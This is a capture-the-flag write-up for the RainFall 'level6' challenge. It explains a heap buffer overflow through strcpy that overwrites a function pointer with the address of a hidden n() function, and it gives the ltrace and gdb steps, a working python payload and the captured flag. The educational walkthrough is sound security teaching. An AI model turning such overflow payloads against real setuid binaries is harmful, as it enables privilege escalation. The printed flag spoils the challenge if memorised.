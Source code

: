 Level6 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
```

Level6 rights:
```Shell
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
```

Here is what we get when testing:
```Shell
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 weouhalierhgaieurgh
Nope
```

Decompiling with Ghidra on https://dogbolt.org/ shows five things:
- the program takes a string as argument and has two malloc'ed variables
- `__dest` is a string of 64-bytes
- `ppcVar1` is a variable of 4-bytes that currently stores the address of the `m()` function (that does nothing)
- `strcpy()` uses the user input argument to store it into `__dest`, right before calling `ppcVar1`
- there is an unused `n()` function that `cat` the next password

The goal is therefore to find a way to replace the content of `ppcVar1` with the `n()` function. To do so, we can do a buffer overflow and abuse `strcpy()`, because it doesn't check that the size of input matches the size of dest. We can pad it with the right amount of chars and simply add the address of `n()`. This will work because `ppcVar1` and `__dest` sit next to each other, as we are on the heap. Overflowing `__dest` will allow us to overwrite whatever is in `ppcVar1` with whatever we want.

To get the right size for the payload, we must calculate how many bytes separate `__dest` from the start of `ppcVar1`.
First, we found the addresses of each malloc using `ltrace`:
```Shell
level6@RainFall:~$ ltrace ./level6
[...]
malloc(64) = 0x0804a008
malloc(4) = 0x0804a050
[...]
```
We can now calculate the offset for our payload by doing the following subtraction: 0x0804a050 - 0x0804a008 = 72

Next, we can find the address of `n()`:
```Shell
(gdb) x n
0x8048454 <n>:  0x83e58955
```

So the result is:
```Shell
level6@RainFall:~$ ./level6 $(python -c 'print("A" * 72 + "\x54\x84\x04\x08")')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
